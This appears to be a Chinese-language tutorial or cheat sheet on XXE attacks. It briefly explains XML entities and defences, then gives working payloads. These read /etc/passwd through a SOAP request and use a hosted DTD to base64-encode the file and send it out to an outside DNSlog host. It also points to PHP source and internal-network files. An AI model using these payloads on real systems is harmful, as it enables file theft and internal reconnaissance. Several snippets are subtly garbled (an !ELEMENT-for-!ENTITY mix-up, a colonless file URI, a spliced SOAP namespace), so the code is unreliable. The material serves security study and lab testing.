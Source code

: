 ## **0x01 XML实体：**
实体(ENTITY)：在xml中可给数据取一个变量名，使用时调用变量名即可。
|     |普通/一般实体 |参数实体   |    
| --- | --- | --- | 
|内部定义 |!ELEMENT 实体名 “文本内容”| %实体名    |     
|外部定义(外部实体) |!ELEMENT 实体名 SYSTEM “外部文件/URL” |%实体名     |     
|引用方式 |&实体名 |%实体名    |     
|使用场合 | XML文档任意处，DTD中也可以    |只能在DTD的元素和属性声明中     |    

一般实体使用例子：
```
POST /api/endpoint HTTP/1.1
Host: example.com
Content-Type: application/xml
Content-Length: [实际内容长度]

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE request [
  <!ENTITY name "xxe">
]>
<request>
  <action>get_data</action>
  <parameters>
    <param1>&name;</param1>
    <param2>value2</param2>
  </parameters>
</request>
```

## **0x02 XXE定义：**
XXE发生在应用程序解XML输入时，没有禁止外部实体的加载导致可加载恶意外部文件，造成**文件读取**、内网端口扫描攻击内网网站(SSRF的一种)等。
PS：libxml 2.9.0以后的默认不解析外部实体，现在大多数为2.9.4版本，可测试站长是否开启了解析外部实体。
^
## **0x03 防范XXE：**
1. 禁用外部实体
2. 过滤关键词
        如：<!DOCTYPE <!ENTITY   
        如：SYSTEM

## **0x04 验证测试XXE：**

抓包，POST数据包里出现application/xml，text/xml，数据格式为xml，考虑是否有XXE。

### 1. 有回显XXE文件读取：
验证：修改POST请求数据包，自定义一个**一般的内部实体**，用内部实体即可验证是否存在XXE。
响应会引用实体，会回显“文本内容”，则验证成功。
```
外部实体注入文件读取：
<!ENTITY b SYSTEM "file///etc/passwd">
xml中引用&b

如：
<?xml version="1.0"?>
<!DOCTYPE Mikasa [
<!ENTITY test SYSTEM "file:///etc/passwd">
]>
<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchemainstance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" 
xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" 
xmlns:urn="urn:examp <soapenv:Body>les:usernameservice">
 <soapenv:Header/>
 <urn:Username 
soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"
>
 <username xsi:type="xsd:string">&test;</username>
 </urn:Username>
 </soapenv:Body>
</soapenv:Envelope>
响应有回显&test;的内容，即/etc/password




php伪协议编码读php源代码等文件:
“php//filter/.../index.php”


读java,go代码：
配合参数实体


请求内网：
读内网段是什么
/proc/net/arp
/etc/hosts
/etc/network/interfaces 高权限读
```

### 2.无回显XXE文件读取：
验证：修改请求数据包，自定义一个**外部实体+DNSlog**验证是否存在XXE。
响应会引用实体，请求DNSlog，DNSlog有记录，则验证成功。
PS：libxml 2.9.0以后的默认不解析外部实体，现在大多数为2.9.4版本，测试是否开启了解析外部实体。
```
无回显用携带进行进行文件读取：

自己服务器上放一个xxe.dtd文件，文件里面定义读文件的实体
该实体的变量作为另一个实体变量的DNSlog的url上参数值
引用，发起请求带出文件读取的内容。
```
xxe.dtd
```
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/passwd">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://2qytvx.ceye.io/?%file;'>">
```
注入点
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE convert [
  <!ENTITY % remote SYSTEM "http://ip/xxe.dtd">
  %remote; %int; %send;
]>
<convert/>
```

^
^
只验证存在的话：
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
        <!ENTITY % remote SYSTEM "2qytvx.ceye.io/xxe_test">
        %remote;
    ]
>
<root/>
```
get请求url最好全编码，而不是只有url路径编码。
<https://github.com/vulhub/vulhub/tree/master/solr/CVE-2017-12629-XXE>